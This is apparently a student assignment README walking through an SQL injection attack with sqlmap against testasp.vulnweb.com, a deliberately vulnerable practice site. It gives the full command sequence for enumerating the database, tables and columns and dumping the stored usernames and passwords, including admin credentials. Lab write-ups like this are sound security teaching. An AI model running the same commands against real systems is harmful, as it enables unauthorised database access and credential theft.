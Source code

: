 # Abdullah Baig | 231485698 | Assignment 1

## Installation of `sqlmap`
- Installed ```sqlmap``` on Ubuntu Terminal using ```sudo apt install sqlmap```.


# SQL Injection Attack
- Go to [Vulnweb](https://vulnweb.com)
- Next step is to find a link that makes a request to the database, the link is `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 --dbs`
- To find tables `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum --tables`
- To find columns `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1-D acuforum -T users --columns`
- Dump username and password column with data in a file `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum -T users -C uname --dump` & `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum -T users -C upass --dump`

This is how the usernames and passwords of [Acuforum](http://testasp.vulnweb.com/) were obtained including the admin credentials.

# Dump / Screenshots
## Command 1
<img width="1000" alt="ss" src="assets/1.png">